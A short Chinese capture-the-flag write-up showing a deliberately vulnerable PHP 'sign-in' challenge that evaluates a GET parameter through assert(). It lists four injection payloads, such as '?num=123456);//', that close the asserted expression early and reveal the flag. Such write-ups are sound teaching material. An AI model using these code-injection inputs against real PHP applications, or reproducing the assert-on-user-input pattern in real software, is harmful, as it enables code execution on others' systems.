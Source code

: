 # 真*签到

## 知识点

`php代码审计`

`assert`

`php语法完整`

## 解题

`php`源码

```php
<?php
error_reporting(0);
highlight_file(__FILE__); 
include('flag.php');  
if (isset($_GET['num'])){
    if ($_GET['num'] == 123456){
        assert("is_numeric($_GET[num])==0") || die('yyyyying!此路不通！！');
        echo $FLAG;
    } else{
        echo "这里不是说了吗！！！必须是 123456";
    }
}else{
    echo "啊？这是什么新型比较？";
    echo "<br/>";
    echo "是不是题错了啊";
}
```

这里需要`num=123456且is_numeric($_GET[num])==false`

我们可以利用`assert`仅会执行第一句的特点来闭合，比如`assert(echo "123";echo "456";)`

仅会输出`123`，而不会执行后一句

> 注:后一句话也需要保持完整，否则无法正常执行
>
> `eval`可以执行多条语句

在这里我们就可以通过以下`payload`攻击

```
?num=123456);(0
?num=123456);//
?num=123456);#
?num=123456);/*
```


